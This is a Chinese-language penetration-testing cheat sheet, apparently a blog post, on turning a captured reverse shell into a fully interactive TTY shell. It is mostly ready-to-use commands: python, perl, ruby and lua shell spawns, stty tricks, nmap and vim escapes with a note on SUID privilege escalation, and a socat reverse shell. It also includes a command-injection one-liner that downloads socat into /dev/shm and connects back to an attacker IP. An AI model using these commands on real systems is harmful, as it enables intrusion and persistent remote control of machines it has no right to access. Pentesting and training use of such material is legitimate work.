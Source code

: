 # Shell Spawning


&lt;!--more--&gt;

# Shell-Spawning（反弹shell到TTYShell）

当我们在 linux 机器上获得了一个 shell，这个 shell 可能没有 TTY（终端连接）功能，导致无法执行一些命令，例如切换用户的“su”命令或“nano”文件创建和修改工具。

同样，渗透测试中也有很多重要功能无法在没有TTY功能的shell 上运行。为了继续进行渗透测试，你将需要生成 TTY shell。

通常，在通过 nc 捕获 shell 之后，会在一个功能非常有限的 shell 中。例如没有命令历史记录（并使用向上“”和“向下”箭头循环浏览它们）和文件名称、命令补全等。在缺少这些功能的 shell 中查询或操作会比较麻烦。

**注意**：要检查 shell 是否是 TTY shell，请使用 `tty` 命令。



以下为非TTY shell中生成TTY shell的实用命令。

## 1、Basic commands

### 基于Python:

```bash
python -c &#39;import pty; pty.spawn(&#34;/bin/sh&#34;)&#39;
python3 -c &#39;import pty; pty.spawn(&#34;/bin/sh&#34;)&#39;
```



1. 首先连接到 shell 后，先检查一下 python 的可用性， 用 winch 命令检查：

```bash
which python python2 python3
```

只要安装了其中任何一个，就将返回已安装二进制文件的路径。

2. 在靶机上输入以下命令（使用机器上可用的 python 版本！）

```rust
python3 -c &#39;import pty;pty.spawn(&#34;/bin/bash&#34;)&#39;;
```

3. 接下来，在靶机上输入以下命令来设置一些重要的环境变量：

```bash
export SHELL=bash
export TERM=&#34;xterm-256color&#34; #允许 clear，并且有颜色
export TERM=&#34;screen-256color&#34; # TERM任选其一
```

4. 键入 ctrl-z 以将 shell 发送到后台。

5. 设置 shell 以通过反向 shell 发送控制字符和其他原始输入。使用以下stty命令来执行此操作。

```bash
stty raw -echo;fg
回车一次后
输入 reset 再回车
```

将再次进入 shell 中。

到此 TTY shell 升级完成。

### 其他命令：

```bash
echo os.system(&#39;/bin/bash&#39;)
/bin/sh -i

#python3
python3 -c &#39;import pty; pty.spawn(&#34;/bin/sh&#34;)&#39;

#perl
exec &#34;/bin/sh&#34;;
perl -e &#39;exec &#34;/bin/sh&#34;;&#39;

#ruby
exec &#34;/bin/sh&#34;
ruby -e &#39;exec &#34;/bin/sh&#34;&#39;

#lua
lua -e &#34;os.execute(&#39;/bin/sh&#39;)&#34;
```



## 2、nmap

nmap版本 **&lt;=5.21**.

```
nmap --interactive
!sh
```

这可以实现一个TTY交互shell，如果nmap还具备SUID权限，那么还可以实现权限提升的效果。



## 3、vi/vim

vi/vim 是一个可以在非TTY shell中运行的文本编辑器。

```
:!bash
```

或

```
:set shell=/bin/bash
:shell
```

## 4、STTY

“stty”命令允许您更改终端与系统的连接特性。 例如，使用 -a 选项获取当前配置：

```
stty -a
```

使用“stty”生成shell，步骤如下：

```shell
In victim machine reverse shell
$ python -c &#39;import pty; pty.spawn(&#34;/bin/bash&#34;)&#39;
Ctrl-Z         

In Attacker console
# echo $TERM
# stty -a
# stty raw -echo
# fg
[enter]
[enter]              

In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows &lt;num&gt; columns &lt;cols&gt;
```



## 5、IRB

```shell
(From within IRB) - exec &#34;/bin/sh&#34;
```



## 5、rlwrap

可以通过使用 rlwrap 命令包装 nc 侦听器来减轻对 shell 的一些限制。默认情况下不会安装它，需要使用 `sudo apt rlwrap` 或 `apt-get install rlwrap` 安装。

```shell
$ rlwrap nc -lvnp $port
```

## 6、socat

另一种方法是将 socat 二进制文件上传到靶机并获得一个完全交互式的 shell。从 https://github.com/andrew-d/static-binaries 下载适当的二进制文件。Socat 需要在两台机器上才能工作。

```bash
#在本地监听：:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#靶机:
socat exec:&#39;bash -li&#39;,pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果在命令注入的地方注入反弹 shell，获得即时完全交互式的反向 shell：

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod &#43;x /dev/shm/socat; /dev/shm/socat exec:&#39;bash -li&#39;,pty,stderr,setsid,sigint,sane tcp:10.0.11.100:1234
```

如果靶机访问不了互联网，就先把 socat 文件下载下来，开启 http 服务，然后将上面的路径指向你的本地地址。



## 参考文章

- https://www.cnblogs.com/sainet/p/15783539.html
- https://rcenetsec.com/shell-spawning/


---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/20230425-shellspawn/  

